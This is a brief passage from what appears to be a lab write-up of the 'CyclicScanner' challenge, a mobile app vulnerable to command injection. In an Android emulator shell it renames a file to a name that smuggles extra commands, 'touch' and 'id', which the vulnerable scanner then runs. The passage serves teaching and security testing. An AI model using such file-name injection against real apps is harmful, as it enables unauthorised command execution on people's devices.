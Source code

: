 



<br />



the executed command is like this

<br />

![](/assets/img/mhl/CyclicScanner/8.png)

<br /><br />



we’ll craft a file with a malicious name that includes a command injection payload.

```bash
emu64x:/sdcard/Download # echo "test" > test2.txt
emu64x:/sdcard/Download # mv test2.txt "test2.txt;touch hacked.txt;id>hacked.txt"

emu64x:/sdcard/Download # ls
test.txt  test2.txt;touch\ hacked.txt;id>hacked.txt
```

<br /><br />

![](/assets/img/mhl/CyclicScanner/11.png)

<br />

<br />
